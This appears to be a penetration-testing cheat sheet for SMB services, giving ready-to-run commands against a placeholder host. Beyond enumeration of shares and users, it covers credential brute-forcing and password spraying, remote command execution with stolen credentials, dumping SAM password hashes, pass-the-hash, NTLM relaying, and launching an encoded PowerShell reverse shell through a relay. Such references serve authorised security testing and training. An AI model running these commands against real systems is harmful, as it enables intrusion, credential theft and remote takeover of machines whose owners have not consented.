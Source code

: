 # SMB Enumeration Cheatsheet

Enumerating SMB (ports 139, 445) services.

## 1. Enumerate SMB Version and Scripts (nmap)
Gather detailed SMB service information.
```
sudo nmap -sV -sC -p139,445 target.com
```
- `-sV`: Detects service and version.
- `-sC`: Runs default scripts (e.g., `smb2-security-mode`, `smb2-time`).

## 2. Check Anonymous SMB Shares (smbclient)
Test for null session (anonymous) access to list shares.
```
smbclient -N -L //target.com
```
- `-N`: No password (null session).
- `-L`: Lists available shares.

## 3. Enumerate SMB Shares and Permissions (smbmap)
List shares and check permissions.
```
smbmap -H target.com
```
- `-H`: Specify target host.
- Use `-r sharename` to browse a specific share's contents.

## 4. Recursive SMB Share Enumeration (smbmap)
Browse files and directories in a share.
```
smbmap -H target.com -r notes
```
- `-r notes`: Recursively lists contents of the "notes" share.

## 5. Brute-Force SMB Credentials (crackmapexec)
Attempt SMB password spraying or brute-forcing.
```
crackmapexec smb target.com -u users.txt -p passwords.txt --local-auth
```
- `-u users.txt`: Username wordlist.
- `-p passwords.txt`: Password wordlist.
- `--local-auth`: For non-domain joined systems.

## 6. Enumerate SMB Directory Listing (smbmap)
List files in a share (if readable).
```
smbmap -H target.com -r sharename
```
- `-r sharename`: Browse files in the specified share.

## 7. Download Files from SMB (smbmap)
Retrieve files from an SMB share.
```
smbmap -H target.com --download "sharename\filename"
```
- `--download`: Downloads the specified file.

## 8. Upload Files to SMB (smbmap)
Test write permissions by uploading files.
```
smbmap -H target.com --upload localfile "sharename\filename"
```
- `--upload`: Uploads the specified file.

## 9. Null Session with RPC (rpcclient)
Connect to SMB using a null session for enumeration.
```
rpcclient -U'%' target.com
```
- `-U'%'`: Specifies null session (no username/password).

## 10. Automated SMB Enumeration (enum4linux-ng)
Automate SMB enumeration tasks.
```
./enum4linux-ng.py target.com -A -C
```
- `-A`: Perform all enumeration tasks.
- `-C`: Include additional checks (e.g., shares, users).

## 11. Remote Command Execution with Impacket (impacket-psexec)
Execute commands via SMB with valid credentials.
```
impacket-psexec administrator:'password'@target.com
```
- Connects using the provided username and password.

## 12. Remote Command Execution (crackmapexec)
Execute commands on the target with valid credentials.
```
crackmapexec smb target.com -u username -p password -x 'whoami' --exec-method smbexec
```
- `-x`: Run CMD command.
- `--exec-method smbexec`: Uses SMB-based execution.

## 13. Enumerate Logged-on Users (crackmapexec)
List users currently logged on.
```
crackmapexec smb target.com -u username -p password --loggedon-users
```
- `--loggedon-users`: Enumerates logged-on users.

## 14. Extract SAM Hashes (crackmapexec)
Dump SAM database hashes with admin privileges.
```
crackmapexec smb target.com -u username -p password --sam
```
- `--sam`: Dumps SAM hashes for local accounts.

## 15. Pass-the-Hash (crackmapexec)
Authenticate using NTLM hash instead of password.
```
crackmapexec smb target.com -u username -H ntlmhash
```
- `-H ntlmhash`: Use NTLM hash for authentication.

## 16. Capture and Relay NetNTLM Hashes (impacket-ntlmrelayx)
Dump SAM database by relaying captured hashes.
```
impacket-ntlmrelayx --no-http-server -smb2support -t target.com
```
- `--no-http-server`: Disables HTTP server.
- `-smb2support`: Enables SMB2 support.
- `-t`: Target host to relay to.

## 17. Execute Reverse Shell via Relay (impacket-ntlmrelayx)
Execute a PowerShell reverse shell after relaying hashes.
```
impacket-ntlmrelayx --no-http-server -smb2support -t target.com -c 'powershell -e <base64_reverse_shell>'
```
- `-c`: Executes the specified command (e.g., Base64-encoded PowerShell reverse shell).

## Tips
- Use SecLists for `users.txt` and `passwords.txt`.
- Check for misconfigurations (e.g., null sessions, excessive permissions).
- Be cautious with brute-forcing to avoid account lockouts.
- Ensure Responder’s SMB server is off in `Responder.conf` before using `impacket-ntlmrelayx`.